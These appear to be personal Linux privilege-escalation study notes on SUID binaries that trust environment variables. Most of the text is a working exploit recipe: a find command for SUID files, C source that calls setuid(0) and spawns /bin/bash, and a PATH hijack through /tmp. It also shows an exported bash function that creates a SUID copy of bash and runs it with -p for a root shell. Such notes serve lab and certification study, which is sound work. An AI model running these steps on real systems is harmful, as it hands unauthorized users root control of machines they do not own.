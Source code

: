 Enviromental variables --> system wide variables used by shells,child process

**env**

**PART 1** 

if we do  
`find  / -type f -perm -04000 -ls 2>/dev/null`


![](/Linux-Privilege-Notes/images/suid_mew.png)
 lets say we find  **/usr/local/bin/suid-env**
 
 
 
 binary if we what it does we found that it is actually starting a apache service  as below 

![](/Linux-Privilege-Notes/images/suid_new.png)


Exploitation 

what if we can insert malicious service  instead of original one 

we create a file called service.c 

int main() {
 setgid(0); 
 setuid(0) ; 
 system("/bin/bash"); 
 return 0 ;
}

then compile the binary 

using 

gcc service.c -o service 

add the service to our PATH by 


**export PATH=/tmp:$PATH** 



then run the SUID  **/usr/local/bin/suid-env**




**PART 2**


![](/Linux-Privilege-Notes/images/suid_new_1.png)

what if the SUID is calling the full path 

create a malicious function for the full path 

"
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s  /tmp/bash && /tmp/bash -p;}

"

then export the service 
using 

**export -f /usr/sbin/service**


run the binaries 

**/usr/local/bin/suid-env2**



